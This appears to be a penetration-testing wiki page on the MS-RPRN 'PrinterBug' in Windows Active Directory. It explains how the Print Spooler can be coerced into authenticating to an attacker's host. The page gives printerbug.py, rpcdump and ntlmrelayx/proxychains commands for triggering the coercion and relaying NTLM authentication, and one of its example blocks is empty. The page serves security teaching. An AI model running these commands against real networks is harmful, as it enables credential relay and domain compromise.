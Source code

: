 # MS-RPRN abuse (PrinterBug)

## Theory

Microsoft’s Print Spooler is a service handling the print jobs and other various tasks related to printing. An attacker controling a domain user/computer can, with a specific RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments ([more info on the finding](https://fr.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/47)).

**The coerced authentications are made over SMB**. But MS-RPRN abuse can be combined with [WebClient abuse](broken-reference) to elicit incoming authentications made over HTTP which heightens [NTLM relay](broken-reference) capabilities.

The "specific call" mentioned above is the `RpcRemoteFindFirstPrinterChangeNotificationEx` notification method, which is part of the MS-RPRN protocol. MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server.

{% hint style="info" %}
The attacker needs a foothold on the domain (i.e. compromised account) for this attack to work since the coercion is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) (Powershell) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) (Python).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) or [SpoolSample](https://github.com/leechristensen/SpoolSample) (C#). There are many alternatives available publicly on the Internet.

{% tabs %}
{% tab title="printerbug" %}
Trigger the spooler service

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 "spoolsv"
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available

```
```
{% endtab %}

{% tab title="ntlmrelayx" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](broken-reference) and trigger the spooler service of a target via a SOCKS proxy.

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains printerbug.py -no-pass 'DOMAIN'/'USER'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilites of [NTLM relay](broken-reference). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/" %}

